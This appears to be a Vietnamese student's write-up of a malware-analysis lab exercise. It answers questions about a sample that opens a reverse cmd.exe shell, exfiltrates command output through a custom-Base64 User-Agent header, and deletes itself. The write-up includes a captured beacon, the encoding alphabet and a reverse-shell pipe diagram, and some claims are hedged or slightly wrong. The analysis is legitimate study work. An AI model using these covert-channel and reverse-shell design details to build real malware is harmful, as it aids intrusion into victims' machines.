

# Ques 1 :What are the advantages or disadvantages of coding malware to use direct IP addresses?
Nhín từ góc nhìn tác giả của malware ta có nhận  xet sau:

Avandtages:
- Địa chỉ ip có thể host nhiều website hợp pháp, có thể làm khó malware để block.
- 1 địa chỉ ip tĩnh không dễ bị tấn công bởi  DNS Sinkholing trong khi 1 doamin độc hại thì ngược lại 
- Doamin chưa ip đó thì không cần đăng kí ?, nên không có nguy cơ gì về khả năng bị thu giữ đánh sập, hoặc thông tin bị rò rỉ có thể khiến phát hiện được hoặc lần theo malware hoặc hoạt động của nó.

Disadvandtages:
- Web sử dụng IP thông thường là đang nghi vì đa số mọi người truy cập web thông qua DNS liên kết với nó.
- Sử dụng IP tĩnh thì các kĩ thuật như `Domain Fronting` cannot be used.
- IP tĩnh rất khó bảo trì vì hạ tầng của malware trỏ đến đã được mã hóa cứng(phải cập nhật lại toàn bộ mã độc nếu web bị đánh sập), trong khi domain cho phép nó được chuyển tiếp chỉ khi bởi việc update 1 DNS Server(trỏ sang ip mới là được) nếu hạ tầng bị đánh sập.

# Ques 2:Which networking libraries does this malware use? What are the advantages or disadvantages of using these libraries?


Mở IDA rồi phân tích malware, vào bảng `import tables` ta sẽ thấy malware đã sử dụng các API của các thư viện `WINNET`:
- InternetCloseHandle
- InternetOpenUrlA
- InternetOpenA
- InternetReadFile

Lợi ích của các API này là chức năng chi tiết hơn và có quyền truy cập vào `caching và cookies`. Hơn nữa sẽ không dựa vào `COM objects` cái mà nếu bị hủy sẽ gây nên lỗi.

1 cái bất lợi là  các API này yêu cầu rất nhiều các tham số như `User Agent` phải tự nhập thủ công.

# Ques 3:What is the source of the URL that the malware uses for beaconing? What advantages does this source offer?
Nếu ta sử dụng Fakenet-NG và chạy mã độc ta sẽ thấy vài request đến địa chỉ loopback 172.0.0.1(đây có lẽ là địa chỉ C2). Trong đó ta thấy ngay nội dung của `User Agent` là bất thường, 

ví dụ:
```
Lab14-02.exe (2140) requested TCP 127.0.0.1:80
GET /tenfour.html HTTP/1.1
User-Agent: (!<e6LJC+xnBq90daDNB+1TDrhG6p9LC/iNBqsGiIsVgJCqhZaDZoNZBrXtC+L/AcoGfbhNdZdUhZKGe6LJC+xnBq90dliTC/XTC+a0A6xSgIWGo6VQdc3N9qH0CmXm97iLC/9L9YsiYG0fonNC4c3T9r3HB41HDbaC8qHT8qxQ871LE5VQA63CCbpHBbaICmt+Bbam95V0BqxQCpVoC+aJDbLJ86UGe6aQDqam92XXB+aQE7iNCmXh863n7l3NB+amE4iTBbVL8r1NBqtCoqHHCc1LCLwVilUy
Host: 127.0.0.1
Cache-Control: no-cache

GET /tenfour.html HTTP/1.1
User-Agent: Internet Surf
Host: 127.0.0.1
Cache-Control: no-cache
```

Tiếp theo sau đó lại là 1 gói tin có `User-agent` khác là `‘Internet Surf’`, cái này mình có thấy trong `String window` của IDA !


Để tìm được nguồn của ip này ta sẽ nhìn lại các lệnh call của WinInet.dll ???. Từ 4 API trên ta tìm references của nó ta sẽ đến được 2 hàm 1 hàm con được gọi và 1 hàm gọi hàm con là `‘sub_4015C0’ or ‘sub_401800’ ` 


Nếu ta tìm reference của hàm `sub_4015C0` rồi ta nhìn xung quanh sẽ thấy Thread để chạy hàm này được gọi sau khi 1 thread khác được tạo 


Ở cả 2 lời gọi này đều source của url đều được truyền vào, nền ta tiếp tục truy ngược lại. Ta thấy trước khi gọi các lệnh mạng thì ta thấy có các lệnh liên quan đến tạo pipes và `cmd.exe`. Nếu nhìn vào mã giả ta sẽ dễ thấy hơn là đang tạo process cho cmd. Thì ta có thể kết luận rằng malware này đang tạo reverse TCP command shell.


Ta tìm ngược lại tiếp thì ta thấy gọi api `LoadStringA` sử dụng để load string resource sau đó lưu vào `buffer` mà eax trỏ đến, trước đó là địa chỉ của biến ` ‘[esp+1A8h+Buffer]’.`. Sau đó thanh ghi này sẽ được load vào thanh ghi ebx để trở thành read handle, hoặc input stream vào pipe ẩn danh. Việc tạo `Event object` để ngăn chặn thread conflict và sử dụng cho nhiều pipe ẩn danh.???


(Ngoài lề)Thật ra phần nay mình cũng không tìm hiểu kĩ bài này coi như là lần đầu gặp đi thì mình đã đọc được ví dụ do AI gen ra khá ổn:
```
   C2 (attacker)                          Victim machine
     |                                      (agent process)
     | <---- socket ---->  agent process  |
     |                      /|\
     |                       |
     |                   CreatePipe A                CreatePipe B
     |   (parent writes)  hWriteStdin  ---+       +--- hWriteStdout  (child writes)
     |                                     |       |
     |                                   [ PIPE ] [ PIPE ]
     |                                     |       |
     |   (child reads)     hReadStdin  ---+         +--- hReadStdout  (parent reads)
     |
 (attacker types)
   "whoami\n"
     |
 socket send -> agent recv -> WriteFile(hWriteStdin, "whoami\n")
                                      ↓
                                cmd.exe reads from STDIN (hReadStdin) -> executes
                                output -> writes to STDOUT (hWriteStdout)
                                      ↓
                             agent ReadFile(hReadStdout) -> send(sock) -> C2 sees result
```

Bạn còn nhớ `LoadStringA` chứ. Ta sẽ mở file malware này bằng `PEview` hoặc `Resource hacker` để nhìn vòa `resoure seciton` với mã id là `1`


`http://127.0.0.1/tenfour.html`

Từ đây ta có thể kết luận source của url mà malware sử dụng để liên lạc là string ở bên trong resource section của malware. Vì là resource được nhúng nên có thể dễ dàng sửa đổi nên đây là 1 lợi thế cho phép C2 có thể sửa đổi, hoặc có thể làm backdoor để liên lạc với C2 server khác mà không phải sửa đổi code của malware
# Ques 4:Which aspect of the HTTP protocol does the malware leverage to achieve its objectives?
Hãy nhớ lại `user-agent` có nội dung rất là lạ như bị mã hóa. Đầu tiên ta nhìn vào phần create thread sẽ dùng pipe mà ra nhìn thấy ở được trước. Ta sẽ bấm vào `startAddress` 


Tại  `StartAddress at ‘0x004014C0’ ` chúng ta có thể thấy hàm đã gọi `‘PeekNamedPipe’` để đọc nội dung trước trong pipe được ánh xạ bởi `ecx` va output buffer sẽ được trỏ bới `esi`


Ở trong phần này nếu có tồn tại nội dung trong pipe (ví dụ như output từ cmd.exe khởi động hay lệnh chạy vào trong terminal ?) thì malware sẽ chạy hàm `sub_401000` và truyền esi đến buffer??? trước khi chạy hàm `loc_401750.`

Nhìn vào hàm `sub_401000` sẽ truyền vào output của pipe , ta nhìn vào kiến trúc của hàm thì đây có vẻ giống như mã hóa `Base 64` với miền giá trị được thay đổi bởi ` ‘byte_403010’.`


Phân tích  ` ‘byte_403010’.` ta thấy nó liên qua đến giá trị lạ, nhưng ngay sau đó ta thấy có 1 chuỗi giống như `Base64 index string.`


Sau đó để sửa thì ta sẽ chuyển hết 2 chuỗi đó thành string như mong muốn , bằng cách chuột phải -> chọn `array`


`WXYZlabcd3fghijko12e456789ABCDEFGHIJKL+/MNOPQRSTUVmn0pqrstuvwxyz
`
Sau khi đã chạy xong hàm `sub_401000` sẽ chạy đến hàm `loc_401750` để thêm giá trị `(!<` vào đầu chuối mã hóa 


từ đây ta có thể nói malware bến đổi  User-Agent để đạt được mục điích 

# Ques 5:What kind of information is communicated in the malware’s initial beacon?
Ta sẽ dùng cyber chef để tìm giả mã thì ta có thể xác nhận được đây là output của cmd.exe đang chạy 


Từ đây ta có thể nói phần nội dung liên kết chính là các commnad được mã hóa
# Ques 6: What are some disadvantages in the design of this malware’s communication channels?
Ta sẽ nhìn vào `sub_4015C0’` , trong đó có sử dụng `‘sub_401800’` để liên lạc ra ngoài internet


Ở đây ta thấy có `User-Agent of “Internet Surf” ` được gửi đi sẽ được truyền thẳng vào pipe của cmd.exe sẽ đọc rồi internet connection sẽ đóng.


Ở đây ta thấy giao tiếp deduf qua piep cảu cmd.exe. Tiếp theo là nội dung đi internet `user-agent` được mã hóa sẽ trở thành dấu vết của malwre. Và không có mã hóa từ lệnh từ server gửi về.

Câu này mình viết không được đủ , bạn nên xem giải
# Ques 7 :Is the malware’s encoding scheme standard?
Ở câu hỏi 4 ta đã biết malware mã hóa Base64 nhưng không dùng chuẩn  index string.
# Ques 8: How is communication terminated?
Sau khi thiết lập kết nối trong `sub_401800’` ở trong hàm  `‘sub_4015C0’,`, 1 sự so sánh đã được tạo để tìm kiếm từ `exit` . Nếu tìm thấy thì kết nôi và thread sẽ bị hủy. Trong main method , mình tìm thấy chương trình hoàn thành hoặc thread bị hủy bằng cách chạy `‘sub_401880’.`


Hàm này sẽ chạy khi 1 file được xóa trong malware khi kết thúc chạy, lỗi khi kết nối tới C2 hay nếu threat bị hủy.


# Ques 9: What is the purpose of this malware, and what role might it play in the attacker’s arsenal?
Mục đích của malwrre là thiết lập   reverse TCP command shell sẽ truyền data thông qua `user agent` và trốn tránh phân tích mạng. Ta thấy malware cố gắng tự xóa chính mình, điều này cho thấy sẽ được sử dụng trước khi phần mềm độc hại tương lai hoặc công cuộc ẩn náu được cài đặt , có thể nói là phần mềm dùng 1 lần ???

Cảm ơn bạn đã đọc, bài này lạ quá, chắc phải luyện tập thêm!!1